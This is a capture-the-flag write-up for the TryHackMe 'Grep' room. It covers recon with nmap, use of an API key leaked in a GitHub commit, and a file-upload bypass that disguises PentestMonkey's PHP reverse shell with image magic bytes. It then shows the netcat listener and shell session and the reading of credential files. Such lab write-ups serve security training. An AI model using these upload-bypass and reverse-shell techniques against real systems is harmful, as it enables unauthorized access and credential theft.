# THM - Grep

#### Ip: 10.10.46.254
#### Name: Grep
#### Difficulty: Easy

----------------------------------------------------------------------


```text
A challenge that tests your reconnaissance and OSINT skills.

Welcome to the OSINT challenge, part of TryHackMe’s Red Teaming Path. In this task, you will be an ethical hacker aiming to exploit a newly developed web application.

SuperSecure Corp, a fast-paced startup, is currently creating a blogging platform inviting security professionals to assess its security. The challenge involves using OSINT techniques to gather information from publicly accessible sources and exploit potential vulnerabilities in the web application.

Start by deploying the machine; Click on the Start Machine button in the upper-right-hand corner of this task to deploy the virtual machine for this room.

Your goal is to identify and exploit vulnerabilities in the application using a combination of recon and OSINT skills. As you progress, you’ll look for weak points in the app, find sensitive data, and attempt to gain unauthorized access. You will leverage the skills and knowledge acquired through the Red Team Pathway to devise and execute your attack strategies.
```

Lets scan the target using Nmap. Here I will use the `-p-` falg to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ sudo nmap -p-  --min-rate 10000 10.10.46.254 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 11:00 CDT
Nmap scan report for 10.10.46.254
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 385bafb4588f5622751331671f85fc2c (RSA)
|   256 489529399f1327e14d415ac237359588 (ECDSA)
|_  256 2766c38bc7c95633f78e2e52541ebe65 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp   open  ssl/http Apache httpd 2.4.41
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
51337/tcp open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: Host: ip-10-10-46-254.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Lets add grep.thm to our `/etc/hosts` folder. 

We can now access the site on port 443:



Trying to register a new user we get an error message.



Heading over to GitHub, if we search `SearchME language:PHP ` we find an interesting repo:
https://github.com/supersecuredeveloper/searchmecms/blob/main/api/upload.php


# Question 1

```text
What is the API key that allows a user to register on the website?
```

If we take a look at the commit history in the API > register.php file, we find the initial commit contained the API key hardocded:



# Question 2

```text
What is the first flag?
```

Armed with this API key I can capture the registration in Burp, and simply update the api-key field.



I can now logon as my created user and grab the first flag:



# Question 3

```text
What is the email of the "admin" user?
```

Back in the GitHub repo we also find code for `/upload.php` and the code shows the file upload only accepts images with certain magic bytes, and also provides us the upload path.



Lets grab a copy of PentestMonkey's php-reverse-shell.php code and make a couple of updates. 

First we'll need to update our IP and the port we'll be listening on:



The we can head over to cyberchef and add the magic bytes listed in the GitHub code to the hex:



From here we can upload our file:



Now we can set up a netcat listener, navigate to http://grep.thm/api/uploads, select our reverse shell file, and trigger the shell:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.217.227] 43686
Linux ip-10-10-217-227 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:59:48 up 6 min,  0 users,  load average: 0.18, 0.85, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-217-227:/$ 
```

Browsing around the target we find a file called users.sql with the administrator's email:



# Question 4

```text
What is the host name of the web application that allows a user to check an email for a possible password leak?
```
Browsing around the box more, the question seems to indicate we're looking for another domain in use. Running `cat /etc/hosts` we can see what else is in use by this IP:



# Question 5

```text
What is the password of the "admin" user?
```

After adding the above to our own `/etc/hosts` file we can navigate to the site (after trying the different open ports revealed in our Nmap scans) and find the admin's password:



Thanks for following along!

-Ryan 

-------------------------------------------------------
